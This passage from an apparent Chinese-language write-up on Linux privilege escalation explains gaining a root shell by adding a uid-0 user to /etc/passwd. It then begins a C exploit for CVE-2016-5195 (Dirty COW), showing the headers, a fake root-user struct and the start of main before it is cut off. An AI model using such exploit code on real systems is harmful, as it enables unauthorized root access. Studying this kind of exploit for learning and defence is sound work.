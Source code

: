 

### 提权

#### 一、新建 root 用户

我们可以通过修改 `/etc/passwd` 这个文件的方式向其中添加一个 uid 为 0 的新用户，之后再登入这个用户即可完成提权拿到 root shell，具体的构造过程就不在此赘叙了

exp 如下：

```C
/**
 * 
 * CVE-2016-5195
 * dirty C-O-W
 * exploit by arttnba3
 * 2021.5.24
 *  
*/

#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>
#include <stdint.h>
#include <crypt.h>

struct stat passwd_st;
void * map;
char *fake_user;
int fake_user_length;

pthread_t write_thread, madvise_thread;

struct Userinfo
{
    char *username;
    char *hash;
    int user_id;
    int group_id;
    char *info;
    char *home_dir;
    char *shell;
}hacker = 
{
    .user_id = 0,
    .group_id = 0,
    .info = "a3pwn",
    .home_dir = "/root",
    .shell = "/bin/bash",
};

void * madviseThread(void * argv);
void * writeThread(void * argv);

int main(int argc, char ** argv)
{
    int passwd_fd;

    if (argc < 3)
    {
```